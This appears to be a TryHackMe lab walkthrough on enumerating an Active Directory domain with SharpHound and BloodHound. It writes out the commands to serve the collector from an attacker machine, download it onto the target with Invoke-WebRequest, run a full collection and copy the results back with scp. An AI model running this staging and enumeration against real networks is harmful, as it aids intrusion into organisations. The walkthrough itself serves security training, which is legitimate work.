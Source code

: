 # Through Bloodhound

Bloodhound runs locally on an attacker's machine. The attacker must run a "collector" like sharphound on the target 
to enumerate domain information. After the collector finishes running, it will output a series of .json files for 
import into the Bloodhound interface.

On the attack machine:

    mkdir sharphound
    
    cd sharphound 
    
    wget https://github.com/BloodHoundAD/SharpHound/releases/download/v1.1.0/SharpHound-v1.1.0.zip
    --2022-10-12 14:20:23--  https://github.com/BloodHoundAD/SharpHound/releases/download/v1.1.0/SharpHound-v1.1.0.zip
    ...
    HTTP request sent, awaiting response... 200 OK
    Length: 2138953 (2.0M) [application/octet-stream]
    Saving to: ‘SharpHound-v1.1.0.zip’
    
    SharpHound-v1.1.0.z 100%[===================>]   2.04M  1.91MB/s    in 1.1s    
    
    2022-10-12 14:20:35 (1.91 MB/s) - ‘SharpHound-v1.1.0.zip’ saved [2138953/2138953]
        
Start a server to serve it:

    python -m http.server 80
    Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...

Now `ssh` into target machine using the credentials given:

    ssh kenneth.davies@za.tryhackme.com@thmjmp1.za.tryhackme.com

In the target machine terminal, switch to powershell:

    za\kenneth.davies@THMJMP1 C:\Users\kenneth.davies\Documents>powershell
 
Choose a directory to work from (I used `Documents`, and download the 
`SharpHound-v1.1.0.zip` from the http server on the attack machine:

    PS C:\Users\kenneth.davies\Documents> Invoke-WebRequest http://10.50.16.168/SharpHound-v1.1.0.zip -OutFile SharpHound-v1.1.0.zip

Extract:

    PS C:\Users\kenneth.davies\Documents> Expand-Archive SharpHound-v1.1.0.zip

Enumerate:

    PS C:\Users\kenneth.davies\Documents> cd SharpHound-v1.1.0
 
    PS C:\Users\kenneth.davies\Documents\SharpHound-v1.1.0> .\SharpHound.exe --CollectionMethods All --Domain za.tryhackme.com --ExcludeDCs  2022-10-12T14:49:52.7476245+01:00|INFORMATION|This version of SharpHound is compatible with the 4.2 Release of BloodHound
    ...
    2022-10-12T14:50:42.7872718+01:00|INFORMATION|SharpHound Enumeration Completed at 2:50 PM on 10/12/2022! Happy Graphing!

Check results:

    PS C:\Users\kenneth.davies\Documents\SharpHound-v1.1.0> dir
    Directory: C:\Users\kenneth.davies\Documents\SharpHound-v1.1.0

    Mode                LastWriteTime         Length Name
    ----                -------------         ------ ----
    -a----       10/12/2022   2:50 PM         139831 20221012145038_BloodHound.zip
    ...

On the attack machine, use `ssh` to copy the bloodhound results over:

    scp kenneth.davies@za.tryhackme.com@thmjmp1.za.tryhackme.com:C:/Users/kenneth.davies/Documents/SharpHound-v1.1.0/20221012145038_BloodHound.zip .

Fire up `neo4j` and `bloodhound`:

    sudo neo4j start                     
    bloodhound &

Drop the copied over results in the bloodhound window, and play around with options.

| ![Bloodhound](../../_static/images/bloodhound.png)
|:--:|
|  Start playing around and answer the questions. |

* Use `Search for a node...` to find specific users, groups, etc.
* Click on specific properties of an object to visualise it
* Use the Analysis tab to run built-in queries
* ...
